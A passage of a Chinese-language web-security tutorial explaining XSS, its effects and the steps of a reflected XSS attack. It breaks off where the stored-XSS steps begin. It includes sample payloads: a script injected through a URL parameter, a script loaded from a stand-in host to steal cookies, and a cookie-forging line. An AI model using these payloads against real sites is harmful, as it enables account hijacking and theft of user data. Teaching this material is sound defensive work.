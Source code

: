 # 常见Web攻击

## XSS

Cross Site Scripting（跨站脚本攻击），因为缩写和 CSS 重叠，所以改叫 XSS。跨站脚本攻击是指通过存在安全漏洞的 Web 网址注册用户的浏览器内运行非本站点 HTML 或 JavaScript 进行的一种攻击

跨站脚本攻击可以造成以下影响：

- 利用虚假输入表单骗取用户个人信息

- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求

  显示伪造的文章或图片

### XSS 攻击分类

#### 反射型 XSS

- 反射型：url 参数直接注入

  URL 注入非法脚本，然后发送给受害用户

  服务端返回的富文本中包含非法脚本，被直接展示

反射型 XSS 攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<!-- 普通 -->
http://localhost:3000/?from=china

<!-- alert尝试 -->
http://localhost:3000/?from=<script>alert(3)</script>

<!-- 获取Cookie -->
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

<!-- 伪造cookie入侵 -->
document.cookie="..."
```

#### 存储型 XSS

- 存储型：存储到 DB 后读取时注入

  发帖中发出包含恶意代码的内容，其它用户访问到该内容后，满足特定条件即触发

  后台不过滤信息，并且前端展示时也不过滤信息

存储型 XSS 的攻击步骤：
